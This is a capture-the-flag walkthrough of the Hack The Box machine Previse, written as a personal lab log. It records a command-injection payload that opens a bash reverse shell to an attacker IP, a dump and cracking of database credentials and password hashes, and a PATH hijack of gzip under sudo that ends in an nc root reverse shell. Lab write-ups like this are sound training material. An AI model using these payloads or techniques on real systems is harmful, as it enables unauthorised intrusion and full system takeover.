 # Scan

```bash
ghost@localhost [10:22:53] [~/Documents/hacking/tj-null-boxes/previse] [master]
-> % rustscan -a $IP -- -sC -sV
Open 10.10.11.104:22
Open 10.10.11.104:80

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 53ed4440116e8bda698579c081f23a12 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDbdbnxQupSPdfuEywpVV7Wp3dHqctX3U+bBa/UyMNxMjkPO+rL5E6ZTAcnoaOJ7SK8Mx1xWik7t78Q0e16QHaz3vk2AgtklyB+KtlH4RWMBEaZVEAfqXRG43FrvYgZe7WitZINAo6kegUbBZVxbCIcUM779/q+i+gXtBJiEdOOfZCaUtB0m6MlwE2H2SeID06g3DC54/VSvwHigQgQ1b7CNgQOslbQ78FbhI+k9kT2gYslacuTwQhacntIh2XFo0YtfY+dySOmi3CXFrNlbUc2puFqtlvBm3TxjzRTxAImBdspggrqXHoOPYf2DBQUMslV9prdyI6kfz9jUFu2P1Dd
|   256 bc5420ac1723bb5020f4e16e620f01b5 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCnDbkb4wzeF+aiHLOs5KNLPZhGOzgPwRSQ3VHK7vi4rH60g/RsecRusTkpq48Pln1iTYQt/turjw3lb0SfEK/4=
|   256 33c189ea5973b1788438a421100c91d8 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIICTOv+Redwjirw6cPpkc/d3Fzz4iRB3lCRfZpZ7irps
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-title: Previse Login
|_Requested resource was login.php
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-favicon: Unknown favicon MD5: B21DD667DF8D81CAE6DD1374DD548004
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# Port 80

It is running a file system. Running ferox buster does not gives anything.

With burpsuites, found a few php scripts

- files.php
- status.php
- accounts.php
- file_logs.php
- logs.php
- index.php
- logout.php

I intercept the response of `accounts.php` and return 200 Ok. From the page, I created an account `ghost:hackthebox`.

Under files page, I downloaded site back which contains database credential `root:mySQL_p@ssw0rd!:)` for `previse` database.

Looking through PHP files, the following file `logs.php` is vulnerable to code execution.

```php
$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
echo $output;
```

With burpsuite intercepting `logs.php` request, the following data is sent to the server to get reverse shell.

```bash
delim=comma; bash -c 'bash -i >& /dev/tcp/10.10.14.3/4445 0>&1'
```

# Getting user

Using the shell and database credential, I get into mysql and dump users.

```bash
www-data@previse:/var/www$ mysql -u root -p
mysql -u root -p
Enter password: mySQL_p@ssw0rd!:)

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 30
Server version: 5.7.35-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2021, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| previse            |
| sys                |
+--------------------+
5 rows in set (0.00 sec)

mysql> use previse;
use previse;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
show tables;
+-------------------+
| Tables_in_previse |
+-------------------+
| accounts          |
| files             |
+-------------------+
2 rows in set (0.00 sec)

mysql> select * from accounts;
select * from accounts;
+----+----------+------------------------------------+---------------------+
| id | username | password                           | created_at          |
+----+----------+------------------------------------+---------------------+
|  1 | m4lwhere | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf. | 2021-05-27 18:18:36 |
|  2 | ghost    | $1$🧂llol$/y6ghfDqprAyuaQsTsn0J1 | 2022-10-23 12:15:57 |
+----+----------+------------------------------------+---------------------+
2 rows in set (0.00 sec)

mysql> select TO_BASE64(password) from accounts where id = 1;
select TO_BASE64(password) from accounts where id = 1;
+--------------------------------------------------+
| TO_BASE64(password)                              |
+--------------------------------------------------+
| JDEk8J+ngmxsb2wkRFFwbWR2bmI3RWV1TzZVYXFSSXRmLg== |
+--------------------------------------------------+
1 row in set (0.00 sec)
```

I cracked the password with John The Ripper.

```bash
ghost@localhost [21:40:59] [~/Documents/hacking/tj-null-boxes/previse] [master *]
-> % sudo john -format=md5crypt-long --wordlist=/usr/share/wordlists/rockyou.txt m4lwhere
[sudo] password for ghost:
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt-long, crypt(3) $1$ (and variants) [MD5 32/64])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:12 4.54% (ETA: 21:45:46) 0g/s 62411p/s 62411c/s 62411C/s yaboy13..y2kpmf
0g 0:00:00:14 5.35% (ETA: 21:45:43) 0g/s 62464p/s 62464c/s 62464C/s louche..lottie5
0g 0:00:00:17 6.53% (ETA: 21:45:42) 0g/s 62340p/s 62340c/s 62340C/s 998123..9960164
ilovecody112235! (?)
```

The user might be reusing the password, so I tried logging in to ssh with the password.

```bash
ghost@localhost [21:56:49] [~/Documents/hacking/tj-null-boxes/previse] [master *]
-> % ssh m4lwhere@10.10.11.104
m4lwhere@10.10.11.104's password:
```

# Privilege escalation

```bash
m4lwhere@previse:/opt/scripts$ sudo -l
User m4lwhere may run the following commands on previse:
    (root) /opt/scripts/access_backup.sh
```

```bash
m4lwhere@previse:/opt/scripts$ cat /opt/scripts/access_backup.sh
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```

From the above `sudo -l` I realised that there's no `secure_path`. For example, this is how it should looks like. `secure_path` is to prevent changing path with sudo.

```bash
ghost@localhost [22:15:57] [~/Documents/hacking/tj-null-boxes/previse] [master *]
-> % sudo -l
[sudo] password for ghost:
Matching Defaults entries for ghost on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty
```

and since the `access_backup.sh` is using `gzip`. We can actually override the `gzip` with own script. So when the `access_backup.sh` is executed with sudo, it will inherently executes our own script (overwritten to `gzip` path) with sudo.

```bash
m4lwhere@previse:~$ echo "bash" > gzip

m4lwhere@previse:~$ chmod +x gzip

m4lwhere@previse:~$ export PATH=.:$PATH

m4lwhere@previse:~$ which gzip
./gzip

m4lwhere@previse:~$ sudo /opt/scripts/access_backup.sh

root@previse:~# nc -nv 10.10.14.3 4445 -e /bin/bash
```

Then the root shell is capture on listener.

```bash
ghost@localhost [22:26:00] [~/Documents/hacking/tj-null-boxes/previse] [master *]
-> % nc -lvnp 4445
listening on [any] 4445 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.11.104] 53158

id
uid=0(root) gid=0(root) groups=0(root)

cat /root/root.txt
dfe17****
```